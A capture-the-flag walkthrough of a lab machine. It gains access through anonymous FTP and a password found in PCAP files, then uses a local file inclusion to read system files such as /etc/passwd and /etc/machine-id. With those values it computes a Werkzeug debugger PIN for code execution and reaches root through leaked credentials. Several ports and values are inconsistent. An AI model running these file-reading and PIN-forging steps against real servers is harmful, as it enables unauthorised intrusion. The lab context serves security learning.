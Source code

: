 # Reconstruction

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.103
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 00:04 +08
Nmap scan report for 192.168.183.103
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8080/tcp open  http-proxy
```

### Anonymous FTP --> Wireshark Password

FTP allows anonymous logins:

```
$ ftp 192.168.183.103 
Connected to 192.168.183.103.
220 (vsFTPd 3.0.3)
Name (192.168.183.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||49037|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Apr 29  2020 WebSOC
-rw-r--r--    1 0        0             137 Apr 29  2020 note.txt
ftp> cd WebSOC
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||32250|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0         3086771 Apr 29  2020 1.05.2020.pcap
-rw-r--r--    1 0        0          869677 Apr 29  2020 29.04.2020.pcap
-rw-r--r--    1 0        0        14579662 Apr 29  2020 30.04.2020.pcap
```

`note.txt` mentions that there are passwords within the files:

```
I've just setup the new WebSOC! This should hopefully help us catch these filthy hackers!

TODO: remove leftover passwords from testing
```

Most of the PCAP files contained traffic generated from brute forcing the site, so it was pretty tedious looking through all of them. The `30.04.2020` PCAP file contained a lot of brute force attempts, while `1.05.2020` contained very few:

<figure><img src="../../../.gitbook/assets/image (2080).png" alt=""><figcaption></figcaption></figure>

And within that PCAP file, we can find a request that has a password that seems to work:

<figure><img src="../../../.gitbook/assets/image (2213).png" alt=""><figcaption></figcaption></figure>

### Web Enum --> LFI

Port 8000 hosted the same Flask application:

<figure><img src="../../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

With the password we found earlier, we can login:

<figure><img src="../../../.gitbook/assets/image (2585).png" alt=""><figcaption></figcaption></figure>

Attempting to view the 'Hello World' blog entry results in an error from Flask:

<figure><img src="../../../.gitbook/assets/image (2081).png" alt=""><figcaption></figcaption></figure>

There's a feature within this kind of web application that allows us to access the console to run Python code, but this one is protected by the PIN:

<figure><img src="../../../.gitbook/assets/image (3963).png" alt=""><figcaption></figcaption></figure>

I ran a directory scan using `wfuzz`:

{% code overflow="wrap" %}
```
$ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hc=308,404 -t 100 http://192.168.183.103:8080/FUZZ/
000000182:   302        3 L      24 W       253 Ch      "data"                      
000001225:   200        66 L     126 W      2011 Ch     "logout"                    
000001387:   302        3 L      24 W       257 Ch      "create"
```
{% endcode %}

There were just these 3 directories. `create` is pretty obvious in what it does, but `data` was not. Visiting it just shows this:

<figure><img src="../../../.gitbook/assets/image (930).png" alt=""><figcaption></figcaption></figure>

Testing any directories with this shows the same page, but with a new header:

<figure><img src="../../../.gitbook/assets/image (2777).png" alt=""><figcaption></figcaption></figure>

The `X-Error` showing `Incorrect Padding` is present, and when googled the first thing that comes up is `base64`:

<figure><img src="../../../.gitbook/assets/image (2126).png" alt=""><figcaption></figcaption></figure>

If we use the `base64` encoded string of `/etc/passwd`, we get another unique error:

<figure><img src="../../../.gitbook/assets/image (939).png" alt=""><figcaption></figcaption></figure>

Now there's an error saying there's no file or directory triggered by the newline character. This means we have LFI on the server if we use `echo -n`!

### Werkzeug PIN Calculation --> RCE

Since we have LFI on the Werkzeug server, we can actually calculate the PIN required.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}

{% embed url="https://blog.gregscharf.com/2023/04/09/lfi-to-rce-in-flask-werkzeug-application/" %}

Using our LFI, we can get the parameters required. First, we need to get the ARP Address of the machine. First, we can find the ARP cache to identify the interface used:

```
$ echo -n '/proc/net/arp' | base64
L3Byb2MvbmV0L2FycA==
```

<figure><img src="../../../.gitbook/assets/image (3924).png" alt=""><figcaption></figcaption></figure>

`ens160` is the interface name needed to find the ARP address:

```
$ echo -n '/sys/class/net/ens160/address' | base64
L3N5cy9jbGFzcy9uZXQvZW5zMTYwL2FkZHJlc3M=
```

<figure><img src="../../../.gitbook/assets/image (2144).png" alt=""><figcaption></figcaption></figure>

Convert this to decimal using `python`:

```
$ python3       
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x005056ba311e)
345052426526
```

Next, we need to get the machine ID.

```
$ echo -n '/etc/machine-id' | base64              
L2V0Yy9tYWNoaW5lLWlk
```

<figure><img src="../../../.gitbook/assets/image (1990).png" alt=""><figcaption></figcaption></figure>

The machine ID needed some service name appended to the back of it, which we can get from reading `/proc/self/cgroup`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1265).png" alt=""><figcaption></figcaption></figure>

We also need the user that started the application, which can be found in `/proc/self/environ`:

<figure><img src="../../../.gitbook/assets/image (1984).png" alt=""><figcaption></figcaption></figure>

Afterwards, I tested it a few times, varying the public bits and testing the machine ID with and without `blog.service` appended to the end of it and eventually got it:

```python
probably_public_bits = [
    'www-data',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.6/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '345052425031',# str(uuid.getnode()),  /sys/class/net/ens33/address
    '00566233196142e9961b4ea12a2bdb29'# get_machine_id(), /etc/machine-id
]
```

<figure><img src="../../../.gitbook/assets/image (712).png" alt=""><figcaption></figcaption></figure>

From here, we can easily get a reverse shell on our machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (3050).png" alt=""><figcaption></figcaption></figure>

We cannot read the user flag yet.

## Privilege Escalation

### Jack Creds

Within `app.py` for the Flask website, we can find some credentials:

```
#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'
ADMIN_PASSWORD = '1edfa9b54a7c0ec28fbc25babb50892e'
```

We can `su` to `jack` using the commented password.

<figure><img src="../../../.gitbook/assets/image (1769).png" alt=""><figcaption></figcaption></figure>

### Powershell --> Root Creds

Within the home directory of the user, I enumerated the directories present and noticed that there was a Powershell directory:

```
jack@reconstruction:~$ ls -la .local/share
total 12
drwxr-xr-x 3 root root 4096 Sep 30  2020 .
drwxr-xr-x 3 root root 4096 Sep 30  2020 ..
drwxr-xr-x 3 root root 4096 Sep 30  2020 powershell
```

Obviously this was rather odd. If we read the `ConsoleHost_History.txt` file at the end of it, we find this:

```
Write-Host -ForegroundColor Green -BackgroundColor White Holy **** this works!
Write-Host -ForegroundColor Red -BackgroundColor Black Holy **** this works as well!
su FlauntHiddenMotion845
clear history
clear
cls
exit
```

This password can be used to `su` to `root`:

<figure><img src="../../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>
